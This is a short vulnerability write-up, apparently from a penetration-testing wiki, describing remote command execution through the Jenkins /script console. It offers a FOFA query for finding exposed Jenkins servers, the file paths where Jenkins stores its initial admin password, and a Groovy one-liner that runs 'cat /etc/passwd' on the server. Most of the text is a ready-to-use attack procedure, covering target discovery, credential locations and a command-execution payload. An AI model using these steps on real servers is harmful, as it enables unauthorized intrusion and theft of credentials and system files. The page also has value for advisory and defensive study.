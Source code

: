 ```yaml
---
title: Jenkins script remote command execution vulnerability
---
```


# Jenkins script remote command execution vulnerability

## Vulnerability Description

Jenkins logs in to access the /script page, where there is a command execution vulnerability, which causes the server to be invaded when there is an unauthorized situation.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jenkins</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## Vulnerability reappears

The account password exists at:

```bash
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

Log in to the background, or access without authorization

```bash
http://xxx.xxx.xxx.xxx/script
```

Execute system commands in the script command module

```bash
println 'cat /etc/passwd'.execute().text
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629510961976-6518a8a9-cd7d-46b0-9bc5-67c07a1f9d7f.png)